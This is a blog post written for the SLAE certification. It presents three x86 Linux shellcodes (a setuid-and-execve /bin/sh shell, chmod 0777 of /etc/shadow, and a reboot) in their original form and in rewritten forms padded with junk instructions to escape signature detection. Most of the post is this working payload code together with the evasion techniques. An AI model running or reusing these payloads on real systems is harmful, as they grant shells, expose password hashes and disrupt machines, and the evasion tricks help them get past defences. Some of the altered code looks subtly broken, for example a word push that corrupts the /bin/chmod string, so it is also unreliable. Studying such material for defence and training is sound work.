 ```yaml
---
title:  "[SLAE 6] Polymorphic Shellcodes"
---
```


![Logo](/assets/images/tux-root.png)

For this assignment I've taken 3 shellcodes from  [Shell-Storm](http://shell-storm.org/) and modified them to avoid detection by pattern matching, thus achieving polymorphism (kind of, more on this later). Some techniques I've used to do this:

* Add garbage/nop-like instructions:

```c
nop

mov al,al  
mov bl,bl  
mov cl,cl  
...  
mov ax,ax  
mov bx,bx  
mov cx,cx  
...  
xchg ax,ax  
xchg bx,bx  
xchg cx,cx  
...  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
```
* Add instructions without effect (e.g.: modify registers that don't affect the execution flow)
* Switch between _`mov`_, _`push`_ + _`pop`_, _`clear`_ + _`add`_:

| mov	| push + pop	| clear + add |
| :---:|:---:|:---: |
| mov al, 0xb	| push byte 0xb	| xor eax, eax|
| _ | pop eax	| add al, 0xb Z

* Switch between _`push`_ and _`mov`_ + _`add`_ + _`push`_:

| push	| mov + add + push |
| :---:|:---: |
| push 0x23456789	| mov esi, 0x12345678 |
| _ | add esi, 0x11111111 |
| _ | push esi |

* Change between _`push`_ and directly accessing the stack:

| push	| stack access |
| :---:|:---:|
| push 0x64777373	| mov dword [esp-4], 0x64777373 |
| _ | sub esp, 4 |

## 1. Execve()

First one is a polymorphic version of the _**`execve()`**_ of the following [shellcode](http://shell-storm.org/shellcode/files/shellcode-549.php): 
```c
    00000000  31C0              xor eax,eax
    00000002  31DB              xor ebx,ebx
    00000004  31C9              xor ecx,ecx
    00000006  B017              mov al,0x17
    00000008  CD80              int 0x80
    0000000A  31C0              xor eax,eax
    0000000C  50                push eax
    0000000D  686E2F7368        push dword 0x68732f6e
    00000012  682F2F6269        push dword 0x69622f2f
    00000017  89E3              mov ebx,esp
    00000019  8D542408          lea edx,[esp+0x8]
    0000001D  50                push eax
    0000001E  53                push ebx
    0000001F  8D0C24            lea ecx,[esp]
    00000022  B00B              mov al,0xb
    00000024  CD80              int 0x80
    00000026  31C0              xor eax,eax
    00000028  B001              mov al,0x1
    0000002A  CD80              int 0x80
```

And my changed version : 
```c
    xor eax,eax
    mov ebx, eax            ; xor ebx,ebx
    mov ecx, ebx            ; xor ecx,ecx
    push 0x17               ; mov al,0x17
    pop ax
    xchg ecx, ecx           ; NOP added
    int 0x80                ; sys_setuid()

    xor eax,eax
    push eax
    mov dword [esp-4], 0x68732f6e ; push dword 0x68732f6e
    mov dword [esp-8], 0x69622f2f ; push dword 0x69622f2f
    sub esp, 8             ; increase the stack pointer
    mov ebx,esp
    lea edx,[esp+0x8]
    push eax
    push ebx
    lea ecx,[esp]
    mov al,0xb
    xor esi, esi            ; NOP added
    lea eax, [eax + esi]    ; NOP added
    int 0x80                ; execve()

    xor eax,eax
    mov al,0x1
    int 0x80                ; exit()
```

I've changed how registers are zeroed and how values were pushed on the stack and added some instructions with no effect.

## 2. Chmod /etc/shadow

The next [shellcode](http://shell-storm.org/shellcode/files/shellcode-828.php) changes the permissions of _`/etc/shadow`_ file: 
```c
xor    %eax,%eax
push   %eax
pushl  $0x776f6461
pushl  $0x68732f2f
pushl  $0x6374652f
movl   %esp,%esi
push   %eax
pushl  $0x37373730
movl   %esp,%ebp
push   %eax
pushl  $0x646f6d68
pushl  $0x632f6e69
pushl  $0x622f2f2f
mov    %esp,%ebx
pushl  %eax
pushl  %esi
pushl  %ebp
pushl  %ebx
movl   %esp,%ecx
mov    %eax,%edx
mov    $0xb,%al
int    $0x80
```

And my changed version: 
```c
xor eax,eax
push eax
push dword 0x776f6461
mov esi, 0x56611d1d         ; push dword 0x68732f2f
lea edi, [esi]              ; junk
add esi, 0x12121212
push esi
push dword 0x6374652f       ; '/etc/shadow'
mov esi,esp
push eax
push dword 0x37373730       ; 0777
mov ebp,esp
push eax
push dword 0x646f6d68
mov edi, 0x030f0e09         ; push dword 0x632f6e69       
add edi, 0x60206060
push edi
push word 0x622f            ; /bin/chmod
mov ebx,esp
push eax
push esi
push ebp
push ebx
mov ecx,esp
mov edx,eax
xor eax, eax                ; mov al,0xb
add al, 0xa
add al, 0x1
xchg ecx, ecx               ; NOP added
int 0x80
```

## 3. Reboot
Last one is a [reboot shellcode](http://shell-storm.org/shellcode/files/shellcode-69.php): 
```c
8048054:       31 c0                   xor    %eax,%eax
8048056:       50                      push   %eax
8048057:       68 62 6f 6f 74          push   $0x746f6f62
804805c:       68 6e 2f 72 65          push   $0x65722f6e
8048061:       68 2f 73 62 69          push   $0x6962732f
8048066:       89 e3                   mov    %esp,%ebx
8048068:       50                      push   %eax
8048069:       89 e2                   mov    %esp,%edx
804806b:       53                      push   %ebx
804806c:       89 e1                   mov    %esp,%ecx
804806e:       b0 0b                   mov    $0xb,%al
8048070:       cd 80                   int    $0x80
```

And my modified version: 
```c
    xor eax,eax
    push eax
    push dword 0x746f6f62
    mov edi, 0x05020f0e      ; push dword 0x65722f6e
    add edi,0x60702060
    push edi
    push dword 0x6962732f    ; /sbin/reboot
    mov ebx,esp
    push eax
    mov edx,esp
    push ebx
    mov ecx,esp
    push 0xa
    pop eax
    add al, 1                ; mov al,0xb
    int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
